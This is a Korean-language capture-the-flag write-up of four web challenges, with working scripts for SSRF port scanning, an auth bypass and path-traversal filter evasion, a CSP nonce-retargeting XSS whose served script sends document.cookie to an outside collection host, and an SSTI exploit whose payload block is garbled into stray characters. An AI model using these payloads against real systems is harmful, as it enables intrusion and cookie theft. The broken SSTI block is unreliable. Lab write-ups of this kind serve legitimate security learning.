

## Comment


운 좋게도 예선 3등했다.

아주대 CTF 열린다고 해서 세명컴고 팀원 두 분이랑 아는 웹 해커 한 분이랑 같이 예선 나갔다.  
팀원들이 다 열심히 해주기도 했고, 같이 웹 푼 팀원이 나랑 합이 꽤 잘 맞아서 잘 풀었던거 같다.

라이트업은 잘 모르는 분야까지 다 쓰긴 좀 그래서 웹만 써보겠다

## Solve
- [Web] My WebView
- [Web] Admin NAS
- [Web] XSS Tester
- [Web] Donation

## Write-Up
### My WebView
간단한 SSRF 문제이다

일단 기본적으로 링크를 넣으면 서버에서 요청해서 그걸 보여주는 서비스이다.

html에 ?list가 주석처리 되어 있고 접속해보면 서버 디렉토리 리스트를 준다.
hosts에선 서버의 내부 아이피를, reports에선 내부망 포트 범위와 /flag 디렉토리의 존재를 알려준다.

```js
const axios = require('axios');

(async () => {
  for (let i = 1000; i <= 10000; i++) {
    const res = await axios.get(`http://3.36.10.125/?url=http://192.168.200.110:${i}/internal`);

    if(res.data !== '') {
      console.log(`Find Port! ${i}`);
    }
  }
})();
```

`http://3.36.10.125/?url=http://192.168.200.110:5090/flag`

이런식으로 브포 코드 짜서 포트 알아내고 플래그 읽어오면 된다.

`flag{b59855ea1f33a1a8ec0cc0216abcd058603b5e34b86ea4e2344f8a0811bfa1cdd683be3badbe440835a3f685615628d5099d1f35209858e1241b587be593}`

---

### Admin NAS

해외 CTF 어딘가에서 봤던 로직 그대로 나온 문제였는데 그걸 기억 못하고 많이 삽질했다

```js
const users = {
  admin: {
    password: crypto.randomBytes(16).toString('hex'), otp: "disabled"
  },
};

const FILES_DIR = path.join(__dirname, "public");

const BLOCKED_KEYWORDS = ["../", "/proc", "/bin", "/etc", "/flag.txt", "/home", "/root"]

const isAdmin = (req, res, next) => {
  if (req.session.isAdmin) {
    next();
  } else {
    res.status(403).json({ message: "ADMIN만 접근 가능합니다." });
  }
}

app.get("/auth", (req, res) => {
  const { username, authType, value } = req.query;

  if (!username || !authType || !value) return res.status(400).json({ message: "Usage: ?username=&authType=&value=" });
  if (authType == "otp" && isNaN(value)) return res.status(400).json({ message: "OTP는 숫자만 사용할 수 있습니다." });

  if (users[username][authType] == value) {
    req.session.isAdmin = true;
    res.status(200).json({ message: `환영합니다, ${username}님` })
  }
  else return res.status(401).json({ message: "계정정보가 일치하지 않습니다." })
});

app.get("/download", isAdmin, (req, res) => {
  const { filename } = req.query;

  if (!filename) return res.status(400).json({ message: "Usage: ?filename=test.png" });

  BLOCKED_KEYWORDS.forEach(keyword => {
    if (filename.includes(keyword)) {
        return res.status(400).json({ message: "파일 이름이 올바르지 않습니다." });
    }
  });
  const filePath = path.normalize(`${FILES_DIR}/${filename}`);
  try {
    return res.sendFile(filePath);
  } catch {
    return res.status(404).json({ message: "파일을 찾을 수 없습니다." });
  }
});
```

authType을 내 맘대로 넣을 수 있어서 굳이 OTP로 인증할 필요 없다

`http://localhost:3000/auth?username=toString&authType=length&value=0`

이런식으로 요청 보내서 어드민 따주면 된다.

이후 LFI는 쉬운데 `../`랑 `flag` 같은 문자열들을 다 필터링하기에  
`?filename[]=../flag.txt`과 같이 filename을 객체로 만들어서 우회하면 필터링에 걸리지 않는다

`flag{0ba7873c0f9bdc1373cc7f330721ca96fcbef55e2f0912e44474505dca939bd5}`

---

### XSS Tester

```php
<?php

if (isset($_GET["source"])) {
    show_source(__FILE__);
    die();
}

$payload = isset($_GET["p"]) ? $_GET["p"] : "";

$nonce = md5(random_bytes(16));
header("Content-Security-Policy: default-src 'none'; style-src 'unsafe-inline' *; script-src 'nonce-$nonce'");
?>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>XSS Blood</title>
    <link href="./bootstrap.min.css" rel="stylesheet">
    <style>
        body {
            background-color: #f8f9fa;
        }
        .form-container {
            background: white;
            padding: 30px;
            border-radius: 10px;
            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
        }
        .form-header {
            margin-bottom: 20px;
        }
    </style>
</head>
<body>
    <div class="container mt-5">
        <div class="row justify-content-center">
            <div class="col-md-8 col-lg-6">
                <div class="form-container">
                    <textarea class="form-control" disabled>Welcome, <?= $payload ?></textarea>
                </div>

                <script src="./loader.js" nonce="<?=$nonce?>"></script>
            </div>
        </div>
    </div>
</body>
</html>
```

그냥 스크립트 삽입으로는 xss 안터지지만
```
http://13.125.240.40:8888/xss.php?p=a</textarea><base href="//222.121.122.208">
```

textarea 끝내고 base 사용해서 nonce retargeting 해 `/loader.js`가 내 서버로 요청하게 한다.

```js
const express = require('express');

const app = express();

app.listen(80);

app.use((req, res, next) => {
  res.send(`window.open('https://xjjcbot.request.dreamhack.games?q='+document.cookie)`);
});
```

서버에서 스크립트 보내서 쿠키 탈취했다

`flag{31837ae2b1fffc0d3f602eff406cebf936307e82904b0da5605c147ab465ee91}`

---

### Donation
블랙박스 문제이다.  
로그인 한 후 가진 돈을 기부하는 기능이 있고 기부할 때 기부 메시지를 적을 수 있다.

여기서 방향성이 전혀 안보여서 애 좀 먹었다
삽질하다보니 중괄호 넣고 요청하면 오류메시지가 출력 되는걸 알 수 있었고 서버가 python으로 돌아가고 있다는걸 http 헤더에서 발견해 SSTI라는걸 유추했다.

필터링이 좀 빡세게 걸려있어서 익스 못하고 있었는데 팀원분이 기가 막히게 익스해버리셨다.

```python


f
0
1
2
3
4
5
6
7
8
9
a
b
c
d
e
f
A
B
C
D
E
F
l
g


?


```

저렇게 다 따로 출력하는 이유는 플래그에 있는 중괄호 필터링 때문에 응답이 안와서 한 글자씩 중괄호만 빼고 출력해서 그렇다

`flag{c59abb2a665a38345ee0d92687aeec35002721ccfd12a807b802a3436afe6183bcc618e1953771fd39ed3d3bbd696f947b3e90408547246a}`